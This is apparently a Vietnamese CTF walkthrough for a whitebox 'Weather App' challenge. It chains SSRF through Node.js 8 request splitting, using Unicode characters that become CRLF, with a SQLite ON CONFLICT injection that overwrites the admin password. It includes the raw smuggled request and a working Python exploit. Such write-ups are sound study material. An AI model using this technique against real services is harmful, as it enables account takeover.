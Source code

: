# Weather App

## Tóm tắt

Đây lại là một bài Whitebox, cần một chút hiểu biết(đã từng làm) về các lỗ hổng khác để có thể hoàn thành bài.

Điểm đang chú ý nhất là việc lỗi dẫn đến lỗ hổng SSRF ở bài này là việc chuyển đổi từ String tới bytes có thể dẫn tới lỗ hổng.&#x20;

## &#x20;Walkthrough


![screenshot-from-2021-09-11-01-13-58.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1642606952079/voGdZf0sj.png)

Lướt qua ứng dụng cũng không có gì ngoài việc ứng dụng đưa ra dữ liệu về thời tiết hiện tại. Phải lướt qua source để tìm kiếm thêm API.

&#x20;


![image (4).png](https://cdn.hashnode.com/res/hashnode/image/upload/v1642606970548/YS_8xT-5k.png)

Flag sẽ được đưa ra khi chúng ta login được vào tài khoản admin. Ngoài ra, còn một API cho phép ta đăng ký tài khoản mới và tại đây tồn tại lỗ hổng SQL Injection (cái này  tác giả cũng cẩn thận note lại cho mọi người).


![image (5).png](https://cdn.hashnode.com/res/hashnode/image/upload/v1642606983325/rbxRo__T3.png)

Việc xử lý tài khoản admin được tạo ban đầu có thể bypass tương tự như trong [MYSQL](https://book.hacktricks.xyz/pentesting-web/sql-injection#on-duplicate-key-update) với [SQLite on Conflict](https://sqlite.org/lang\_conflict.html). Nhưng một vấn đề ở đây là việc đăng kí chỉ có phép từ Local!


![image (6).png](https://cdn.hashnode.com/res/hashnode/image/upload/v1642606990978/jWcy7iYWz.png)

Mình lúc đầu cũng ngây thơ khi tìm cách bypass cái regex này thông qua việc sửa Header để bypass nhưng mọi nỗ lực tìm kiếm đều chỉ ra việc bypass cái regex này là không thể =)))&#x20;

Quay ra tìm thêm được một đoạn API thời tiết để lấy thông tin có thể Injection nhưng API cũng chỉ là để đổ dữ liệu ra Frontend, không thấy sử dụng phía Server side.&#x20;


![image (7).png](https://cdn.hashnode.com/res/hashnode/image/upload/v1642606999020/MsVR-mSQe.png)

Cuối cùng quay lại với file `Docker`  thì phát hiện khá hay là ứng dụng này dùng `Nodejs v8.12.0`  một phiên bản khá là cũ với phiên bản LTS hiện tại là `v14` và `v12` tức là còn trước cả `v10`. Tìm hiểu một hồi lâu thì phiên bản này tồn tại khá nhiều lỗ hổng, đặc biệt có vài lỗ hổng liên quan tới `SSRF` thông qua `Request Splitting`, và mình lang thang một hồi tìm được bài này [Security bugs: SSRF via Request Splitting ](https://www.rfk.id.au/blog/entry/security-bugs-ssrf-via-request-splitting/).

Tóm váy nhanh thì như sau:

* `http.get()` nhận vào đối số là một `string.`
* Nhưng việc thực hiện gửi `HTTP request `thì cần sử dụng là `bytes array` chứ không thể thực hiện trên `string`.  Do đó các string khi được đưa vào sẽ đồng thời chuyển về bytes array và escape các kí tự đặc biệt.&#x20;
* Việc thực hiện này lại sử dụng việc decoding mặc định của Nodejs thông qua bộ mã hóa `latin1` nếu không có body.
* Bộ mã hóa này không thể hiện các ký tự unicode high-numbered unicode, mà chỉ biểu diễn bằng cách chỉ sử dụng phần low-numbered unicode.

```javascript
> v = "/caf\u{E9}\u{01F436}"
'/café🐶'
> Buffer.from(v, 'latin1').toString('latin1')
'/café=6'
```

* Do đó, có thể chèn các kí tự ngắt (`CRLF`) để có thể thực hiện `Request Splitting` bằng cách sử dụng các ký tự `\u010A\u010D` thì sẽ trở thành ký tự ngắt `CRLF`khi được gửi đi.&#x20;

Quay lại với cái lỗ hổng ở mã nguồn ở trên thì việc có thể thực hiện chuyển mật khẩu tài khoản admin thông qua `Request splitting` tới API lấy dữ liệu thời tiết.

Request cần gửi sẽ có dạng như sau, nhớ là giữa các request cần loại bỏ Header`Connection: close` để tránh đóng kết nối khi tất cả các request chưa được chạy hết, chỉ để lại Header này ở request cuối cùng.

```http
GET /api...<start here> HTTP/1.1
Host: 127.0.0.1

POST /register HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 95
username=admin&password=123') on conflict(username) do update set password='d3s34'-- -

GET /..<end here> HTTP/1.1
Host: 127.0.0.1
Connection: close
```

&#x20;Để thực hiện đoạn body ở giữ thì cần đưa ngắt dòng của HTTP Request vào thông qua lỗ hổng phía trên của NodeJs. Đoạn code exploit mình viết được sẽ như sau:

```python
def exploit():
    crlf = "\u010D\u010A"
    space = "\u0120"

    username = "admin"
    password="1') on conflict(username) do update set password='d3s34';-- -"\
        .replace(" ", space)\
        .replace("'", "%27")

    payload = f"{space}HTTP/1.1{crlf}" \
              f"Host:{space}127.0.0.1{crlf}" \
              f"{crlf}" \
                        \
              f"POST{space}/register{space}HTTP/1.1{crlf}" \
              f"Host:{space}127.0.0.1{crlf}" \
              f"Content-Type:{space}application/x-www-form-urlencoded{crlf}" \
              f"Content-Length:{space}{len(username) + len(password) + len('username=&password=')}{crlf}" \
              f"{crlf}" \
              f"username={username}&password={password}{crlf}" \
              f"{crlf}" \
                        \
              f"GET{space}/VN"

    data = {
        "endpoint": "127.0.0.1",
        "city": "Hanoi",
        "country": "VN" + payload
    }

    response = requests.post(url="http://188.166.173.208:31625/api/weather", data=data)
```

&#x20;Và kết quả sẽ đăng nhập được thông qua mật khẩu Injection được ở trên.


![image (8).png](https://cdn.hashnode.com/res/hashnode/image/upload/v1642607012983/RwhiCf-Po.png)
